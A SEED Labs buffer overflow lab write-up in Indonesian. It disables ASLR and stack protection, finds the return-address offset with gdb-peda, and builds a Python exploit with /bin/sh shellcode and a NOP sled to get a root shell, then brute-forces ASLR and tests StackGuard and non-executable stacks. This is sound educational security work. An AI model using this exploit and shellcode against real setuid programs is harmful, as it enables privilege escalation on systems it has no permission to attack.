


# SEEDlabs : Buffer Overflow Vulnerability Lab By Dito Prabowo


## 0x00 Intro

Activities: Students are given a program that has the buffer-overflow problem, and they need to exploit the vulnerability to gain the root privilege. Moreover, students will experiment with several protection schemes that have been implemented in Linux, and evaluate their effectiveness.

Eksploitasi ini dikenal dengan input validation attack yang dapat mengakibatkan suatu sistem crash (buffer overflow) yaitu variabel yang tersedia pada aplikasi tidak dapat menampung input yang sengaja dibuat berlebihan. Kelebihannya dapat mengganti suatu nilai variable (sehingga kita bisa mengontrol nya) juga bisa mennganti suatu nilai return address dari sebuah program.


## 0x01 Guide

Disini saya menggunakan VM yang telah disediakan oleh SEEDlabs, untuk memasang vm dan sebagainya silakan kunjungi situs seedlab untuk melihat dokumentasi,cara install dan download vm nya.

Untuk file yang dibutuhkan :

1. stack.c (the vulnerable program)

2. call_shellcode.c

3. Exploit.py (Buat Sendiri)

Untuk file stack.c dan call_shellcode.c sudah disediakan oleh seedlab, untuk exploit.py saya membuat sendiri payloadnya yang untuk injeksi.

Kita bisa memasukan shellcode kedalam badfile tapi program belum bisa mengeksekusi shellcode karena return address program belum kita overflow dan diarahkan ke lokasi alamat shelccode, untuk itu kita harus menyari return address program, dan menggantinya dengan alamat shellcode.

Untuk mencari return address bisa mudah kita cari menggunakan feature gdb-peda yaitu pattern, saat program kita jalankan kasih pattern yang sudah di generate, akan muncul invalid return address suatu alamat, lalu alamat itu akan di baca oleh gdb-peda dan akan menghasilkan angka berapa ofset yang harus kita isi padding(junk char) agar kita bisa memodifikasi return address.

Untuk mencari alamat shellcode, debug program dengan gdb-peda lalu break pada salah satu address saat variable buffer terbuat, lalu bisa kita baca alamat buffer tersebut.


Ketika sudah mendapat return address dan alamat shellcode, kita buat payload dan memasukannya kedalam badfile, setelah itu kita jalankan programnya stack. Apabila berhasil masuk ke dalam shell berarti buffer overflow berhasil.

Adapun step step yang harus kita lakukan :

1. Mematikan Address Space Randomization pada VM.

2. Mengcompile file stack.c dengan mematikan StackGuard Protection Scheme dan membuat shellcode di stack dapat di eksekusi (execstack).

3. Mencoba dan memastikan dapat mengeksekusi shellcode dengan file call_shellcode.c

4. Mencari offset untuk return address

5. Mencari alamat Buffer

6. Membuat Payload dan mengeksekusi


## 0x02 LAB

#### 1.Mematikan Address Space Randomization pada VM.

Mematikan ASLR dapat kita lakukan dengan command :

    sudo sysctl -w kernel.randomize_va_space=0

Apabila kita tidak mematikan ASLR alamat alamat pada program akan berubah berubah dan kita akan agak kesulitan untuk melakukan buffer overflow


#### 2.Mengcompile file stack.c dengan mematikan StackGuard Protection Scheme dan membuat shellcode di stack dapat di eksekusi (execstack).

Secara default compiler gcc saat mengcompile menyalakan StackGuard Protection Scheme untuk mencegah user memasukan input lebih dari yang di definisikan, misal buffer[10] apabila kita memasukan lebih dari 10 character akan terdeteksi stack smasing.


    *** stack smashing detected : ./stack terminated

Selain itu, agar shellcode bisa berjalan perlu -z execstack agar shellcode di stack dapat di eksekusi.

Untuk command nya

    gcc -o stack -z execstack -fno-stack-protector stack.c
    chmod 4755 stack

#### 3. Mencoba dan memastikan dapat mengeksekusi shellcode dengan file call_shellcode.c


Compile call_shellcode.c dengan menggunakan perintah :

    gcc -z execstack -o call_shellcode call_shellcode.c

Setelah berhasil lalu jalankan program    

    ./call_shellcode

Hasilnya :


<br><br>


#### 4. Mencari offset untuk return address

Untuk mendebug program dalam linux bisa menggunakan gdb, namun untuk kasus binary exploitation akan lebih disarankan untuk menggunakan gdb-peda, karena mengandung beberapa feature tambahan untuk buffer overflow salah satunya yaitu pattern untuk mencari nilai offset return address.

pada terminal lakukan gdb pada program stack

    gdb -q stack

lalu buat pattern untuk mencari nilai offset return address

    pattern create 40

  
  <br>

setelahnya buat file exploit.py dan masukan pattern ke dalam badfile

```python
import sys

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))
content[0:40] = "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa"

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
```

lalu jalankan(di terminal baru) dengan command  :

    python exploit.py

akan muncul file bernama badfile, kemudian pada terminal gdb-peda jalankan dengan command run

akan muncul invalid


<br>

nah kita bisa cari offset return addres nya dengan command pada gdb-peda :

    pattern offset 0x61414145

lalu akan muncul jumlah ofset yang perlu kita ketahui


<br>

#### 5.Mencari alamat Buffer

setelah kita tau offset nya, kita perlu mencari tau alamat buffer nya, masuk ke gdb-peda dan lihat code diassambly nya

    $ gdb -q stack
    gdb-peda$ pdisass main

```python
Dump of assembler code for function main:
   0x080484da <+0>:	lea    ecx,[esp+0x4]
   0x080484de <+4>:	and    esp,0xfffffff0
   0x080484e1 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484e4 <+10>:	push   ebp
   0x080484e5 <+11>:	mov    ebp,esp
   0x080484e7 <+13>:	push   ecx
   0x080484e8 <+14>:	sub    esp,0x214
   0x080484ee <+20>:	sub    esp,0x8
   0x080484f1 <+23>:	push   0x80485d0
   0x080484f6 <+28>:	push   0x80485d2
   0x080484fb <+33>:	call   0x80483a0 <fopen@plt>
   0x08048500 <+38>:	add    esp,0x10
   0x08048503 <+41>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048506 <+44>:	push   DWORD PTR [ebp-0xc]
   0x08048509 <+47>:	push   0x205
   0x0804850e <+52>:	push   0x1
   0x08048510 <+54>:	lea    eax,[ebp-0x211]
   0x08048516 <+60>:	push   eax
   0x08048517 <+61>:	call   0x8048360 <fread@plt>
   0x0804851c <+66>:	add    esp,0x10
   0x0804851f <+69>:	sub    esp,0xc
   0x08048522 <+72>:	lea    eax,[ebp-0x211]
   0x08048528 <+78>:	push   eax
   0x08048529 <+79>:	call   0x80484bb <bof>
   0x0804852e <+84>:	add    esp,0x10
   0x08048531 <+87>:	sub    esp,0xc
   0x08048534 <+90>:	push   0x80485da
   0x08048539 <+95>:	call   0x8048380 <puts@plt>
   0x0804853e <+100>:	add    esp,0x10
   0x08048541 <+103>:	mov    eax,0x1
   0x08048546 <+108>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048549 <+111>:	leave  
   0x0804854a <+112>:	lea    esp,[ecx-0x4]
   0x0804854d <+115>:	ret    
End of assembler dump.
```
kita break saat memamnggil function bof

    gdb-peda$ b *main+79
    Breakpoint 1 at 0x8048529
    r

.*

pada stack terlihat alamat str mulai mengisi nilai
pada alamat tertentu yaitu

```python
0xbfffea37
```

<br>

berarti kita dapat menaruh return address mulai dari alamat diatas sampai 517-len(shelccode) dikarenakan kita akan menaruh shelccode pada akhir badfile, jadi ketika kita alihkan ke alamat diantara alamat diatas sampai 517-len(shelccode) kita pada akhirnya akan menemui shellcode dan dapat mengeksekusi nya karena selain shellcode isi badfile hanyalah 0x90(NOP) yg artinya tidak ada  operasi apa-apa.

kita buat saja return address nya
```python
0xbfffea77
```

#### 6. Membuat Payload dan mengeksekusi
payload =

```python
import sys

shellcode= (
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
).encode('latin-1')


offset = 36
content = bytearray(0x90 for i in range(517))
start = 517 - len(shellcode)
returna = ("\x77\xea\xff\xbf").encode('latin-1')
content[0:1]=("\x41").encode('latin-1')
content[offset:offset+4] = returna
content[start:] = shellcode
file = open("badfile", "wb")
file.write(content)
file.close()
```
pertama-tama seluruh content badfile akan diisi dengan NOP, lalu content pertama kita isi dengan 0x41 untuk mengetahui itu merupakan mulainya str,
kemudian di offset return addres kita isi dengan return address diatas agar masuk ke addres str(badfile), pada akhir ( 517 - len(shellcode)) kita tulis kan shelccode nya

lalu kita buat exploit nya dan menjalankan program stack nya

    python3 exploit.py
    ./StackGuard

jika berhasil akan mengarahkan kita ke shellcode


<br>

Exploit berhasil kita lakukan

***

### Task 2: Address Randomization

pada task 2, kita menyalakan sistem aslr dalam linux dengan command

      sudo sysctl -w kernel.randomize_va_space=2

lalu kita lakukan bruteforce sampai ketemu sesuai dengan alamat address nya,

      sh -c "while [ 1 ]; do ./stack; done;"

kita lakukan loop sampai program bisa tereksekusi.

Bukti :


Proses while mencari addres yg sesuai (Faktor Lucky,bisa sangat lama, bisa cepat, tapi kebanyakan lama, saya sendiri beberapa jam baru ketemu) :


Setelah mendapat shell (akhirnyaaaa) :


***

### Task 3: Stack Guard

Pada task ini kita mencoba untuk tidak mematikan stack guard protection yang mana akan menghalangi kita untuk melakukan buffer overflow,

Hasil :


***

### Task 4: Non-executable Stack

pada task kali ini kita menjalankan program dengan tidak mengijinkan isi stack dapat dieksekusi

      gcc -o stack -z noexecstack -fno-stack-protector stack.c

perintah noexecstack membuat kita tidak bisa menjalankan shellcode yang ada di dalam Stack

Hasil :


mendapatkan segmentation fault karena tidak bisa menjalankan payload dalam stack
